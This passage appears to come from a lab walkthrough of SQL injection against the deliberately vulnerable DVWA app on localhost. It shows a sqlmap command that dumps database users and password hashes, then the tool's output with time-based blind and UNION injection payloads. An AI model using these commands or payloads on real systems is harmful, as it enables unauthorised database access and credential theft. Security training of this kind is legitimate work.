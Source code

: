    sqlmap -u "http://127.0.0.1/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=84c13kemobb8ti32mqttte7497" --users --passwords

That produces the following output:

    [*] starting @ 17:47:44 /2022-11-17/

    [17:47:44] [INFO] resuming back-end DBMS 'mysql' 
    [17:47:44] [INFO] testing connection to the target URL
    sqlmap resumed the following injection point(s) from stored session:
    ---
    Parameter: id (GET)
        Type: time-based blind
        Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
        Payload: id=1' AND (SELECT 5671 FROM (SELECT(SLEEP(5)))BOiy) AND 'xUEn'='xUEn&Submit=Submit

        Type: UNION query
        Title: Generic UNION query (NULL) - 2 columns
        Payload: id=1' UNION ALL SELECT NULL,CONCAT(0x71626b7871,0x7976636d7453776c574977647564714f73414f6e4b526649457a696b7269526c6b447a6d4d694864,0x717a786b71)-- -&Submit=Submit
    ---
    [17:47:44] [INFO] the back-end DBMS is MySQL
    web server operating system: Linux Ubuntu 8.04 (Hardy Heron)
    web application technology: PHP 5.2.4, Apache 2.2.8
    back-end DBMS: MySQL >= 5.0.12
    [17:47:44] [INFO] fetching database users
    database management system users [3]:
    [*] 'debian-sys-maint'@''
    [*] 'guest'@'%'
    [*] 'root'@'%'

    [17:47:44] [INFO] fetching database users password hashes
    [17:47:44] [WARNING] something went wrong with full UNION technique (could be because of limitation on retrieved number of entries). Falling back to partial UNION technique
    [17:47:44] [WARNING] in case of continuous data retrieval problems you are advised to try a switch '--no-cast' or switch '--hex'                                              
    do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] y
    do you want to perform a dictionary-based attack against retrieved password hashes? [Y/n/q] y
    [17:47:49] [WARNING] no clear password(s) found
    database management system users password hashes:
    [*] debian-sys-maint [1]:
        password hash: NULL
    [*] guest [1]:
        password hash: NULL
    [*] root [1]:
        password hash: NULL

    [17:47:49] [INFO] fetched data logged to text files under '/home/user/.local/share/sqlmap/output/192.168.8.142'

    [*] ending @ 17:47:49 /2022-11-17/

Print the table structure:
